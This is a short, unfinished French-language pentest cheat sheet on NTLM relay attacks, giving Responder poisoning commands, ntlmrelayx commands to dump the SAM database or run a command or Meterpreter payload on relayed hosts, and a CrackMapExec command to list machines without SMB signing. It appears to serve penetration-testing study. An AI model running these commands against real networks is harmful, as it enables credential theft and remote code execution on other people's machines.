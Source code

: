 ```yaml
---
description: A finir
---
```


# NTLM Relay

Prendre la dernière version de Responder ([https://github.com/lgandx/Responder](https://github.com/lgandx/Responder))

### Ecoute passive

```
sudo python3 responder -I eth0
```

Les _hashs_ NT utilisé dans la version 1 et 2 du protocole NTLM (a.k.a Net-NTLMv1-SSP et Net-NTLMv2-SSP) peuvent être relayés.

### Relayer

Pour pouvoir relayer, il faut que les services SMB et HTTP de Responder soit stoppés (fichier de configuration Responder.conf). Ceci permet le bon fonctionnement de `ntlmrelayx`.

```
# Terminal 1 (dans le docker impacket)
Dumper la base SAM : ntlmrelayx -tf <TARGETS.txt>
Exécuter une commande : ntlmrelayx -tf <TARGETS.txt> -c <COMMANDE ou METERPRETER>

# Terminal 2
sudo python3 responder -I eth0 -d -w
```

#### TIPS

* `smb2support` : Option qui permet de supporter le protocole SMBv2

Le fichier `TARGETS.txt` contient les IP des machines dont la signature SMB n'est pas activée. Cette liste de machine peut être récupérée avec la commande suivante :&#x20;

```
cme smb <IP>/<MASK> --gen-relay-list <TARGETS.txt>
```
